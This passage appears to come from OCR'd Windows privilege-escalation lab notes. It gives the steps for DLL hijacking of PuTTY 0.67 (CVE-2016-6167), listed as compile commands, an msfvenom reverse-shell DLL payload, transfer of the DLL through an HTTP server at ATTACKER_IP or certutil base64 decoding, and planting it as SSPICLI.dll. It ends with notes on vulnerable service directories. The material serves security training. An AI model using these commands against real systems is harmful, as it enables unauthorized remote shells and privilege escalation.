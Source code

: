 2. Install all of the programs required to build Windows Portable Executable (PE) files:
    ◦ apt-get install mingw-w64 mingw-w64-common mingw-w64-i686-dev mingw-w64-tools mingw-w64-
       tools mingw-w64-x86-64-dev -y
3. Compiles the raw C source code in bad.c into a unlinked c object name bad.o:
    ◦ i686-w64-mingw32-g++ -c bad.c -o bad.o
4. The -Wl, Creates a shared object (a DLL) from source.o named bad.dll. It also creates an import
    library name bad.a for the DLL which isn’t used for this exploit:
       ◦ i686-w64-mingw32-g++ -shared -o bad.dll bad.o -Wl,--out-implib,bad.a
5. Alternative method for DLL creation using MSFVenom
    ◦ msfvenom -p windows/shell_reverse_tcp LHOST=10.50.x.x LPORT=4444 -f dll > bad.dll

Once the malicious dll has been createdit must be uploaded to the host. Use scp, ftp, nc, python
simple HTTP server, or copying and pasting base64 dump of file.

**Transfering the DLL**
Once the malicious dll has been created, it must be uploaded to the host. Use of scp, ftp, nc, python
simple HTTP server, or copying base64 output.

1. Transfer the DLL to the target machine using one of the following methods:
    a.Create a Simple HTTP server, and then browse to it from the target
       ▪ On Machine with DLL: python -m SimpleHTTPServer 8000
       ▪ On Target: Browse to [http://ATTACKER_IP:](http://ATTACKER_IP:)
b. base64 encode the .dll and copy/paste to the target
1. On Machine with DLL: base64 bad.dll > base64dll
▪ Copy and paste the entire text of the encoded base64dll file
2. On Target:
▪ Paste the contents of base64dll into base64.txt
▪ Run: move base64.txt base
▪ Run: certutil -decode base64 SSPICLI.dll
2. Put the retrieved DLL in the same location as the vulnerable Putty executable
    ◦ Run: copy "PATH OF MALICIOUS DLL" "c:\users\student\exercise_2\SSPICLI.dll"
3. Allow for Putty to execute with scheduled task

If the above steps were followed, a command prompt or two will flash on the screen, and a text file
will be created in the same location where putty is.

_Sources:_

- CVE-2016-6167 for Putty Version 0.67 Mitre Explanation
- Putty Dll Hijacking Demo
- Dll Hijacking on Graceful Security


- Building a DLL with MingGW
- Additional Information on building a DLL in MinGW

**Vulnerable Services**

Services in windows are actually DLL’s that are loaded and executed via svchost.exe with system
permissions via the Service Control Manager ( **SCM** ). The standard location for the Windows DLLs is
**C:\Windows\System32** which is only accessible with adminstrative permissions. However, services
are not limited to only running as a DLL from **C:\Windows\System32** ; Executables and non-
standard locations are supported by the Service Control Manager too. If a service is being run from
a directory where a regular user has Full access (or at least delete and write) the service can be
compromised to perform functions at an elevated level.
